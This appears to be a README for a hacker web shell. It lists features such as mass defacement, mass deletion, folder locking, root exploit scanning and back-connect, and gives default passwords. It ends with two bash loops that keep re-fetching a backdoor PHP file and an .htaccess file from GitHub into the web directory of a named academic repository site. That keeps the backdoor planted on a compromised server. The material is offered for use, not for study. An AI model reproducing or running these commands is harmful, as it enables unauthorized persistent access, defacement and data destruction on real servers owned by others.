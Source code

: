 ====================================
FITURE SHELL : 
====================================

- MASS DEFACE
- MASS DELETE
- LOCK FOLDER
- UNLOCK FOLDER
- GREEN ALL FILE
- GREEN ALL FOLDER
- SCAN FILE EXPLOIT ROOT
- BACK CONNECT / NETWORK
- LOCK SHELL
- CHMOD SHELL


pass default : root

pass default : whohaxorqt1337

===========================================
auto upload sc: 
===========================================

bash -c 'while true; do if [ ! -f "/var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/index.php" ]; then curl -o /var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/index.php https://raw.githubusercontent.com/GanestSeven/backdoor-mini/refs/heads/main/1337.php; fi; sleep 20; done' &

bash -c 'while true; do if [ ! -f "/var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/.htaccess" ]; then curl -o /var/www/html/repository.stembi.ac.id/htdocs/lib/phpmailer/examples/images/.htaccess https://raw.githubusercontent.com/GanestSeven/file-htaccess/refs/heads/main/htaccess-nonphp.txt; fi; sleep 20; done' &
